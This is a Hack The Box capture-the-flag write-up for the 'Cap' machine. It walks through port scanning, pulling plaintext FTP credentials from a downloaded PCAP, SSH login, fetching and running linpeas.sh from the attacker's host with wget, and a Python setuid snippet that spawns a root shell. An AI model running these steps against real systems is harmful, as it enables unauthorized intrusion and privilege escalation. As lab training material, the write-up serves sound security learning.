 # HTB - Cap

**IP Address:** `10.10.10.245`  
**OS:** Ubuntu 20.04  
**Difficulty:** Easy  
**Tags:** FTP, PCAP, Wireshark, SSH, LinPEAS, SUID, Python

---

## 1. Port Scanning

### 1.1 Nmap Scan

```bash
nmap -sV -sC 10.10.10.245
```

**Result:**

- `21/tcp` → FTP (vsftpd 3.0.3)
- `22/tcp` → SSH (OpenSSH 8.2p1)
- `80/tcp` → HTTP (Gunicorn)

---

## 2. Web Enumeration

Navigating to `http://10.10.10.245` opens a "Security Dashboard" already logged in as `Nathan`.  
Clicking **Security Snapshot** changes the URL to `/capture/data/0`.

```text
/capture/data/0 → contains downloadable PCAP data
```

⬇️ Downloaded the `.pcap` file and opened it with **Wireshark**.

Filtered traffic by protocol **FTP** and discovered:

```text
Username: nathan
Password: Buck3tH4TF0RM3!
```

---

## 3. SSH Access

Used the recovered credentials:

```bash
ssh nathan@10.10.10.245
```

✅ SSH login successful  
🏁 **User flag retrieved from Nathan's home directory**

---

## 4. Privilege Escalation

### 4.1 Hosting linPEAS Locally

Started a local web server:

```bash
python3 -m http.server 8080
```

On victim machine, downloaded **linpeas.sh**:

```bash
wget http://10.10.14.105:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### 4.2 Root via Python SUID Abuse

`linpeas.sh` showed a possible misconfigured **SUID bit on Python3**.

On the victim:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

✅ Spawned a root shell  
🏁 **Root flag retrieved from `/root`**

---

# ✅ MACHINE COMPLETE
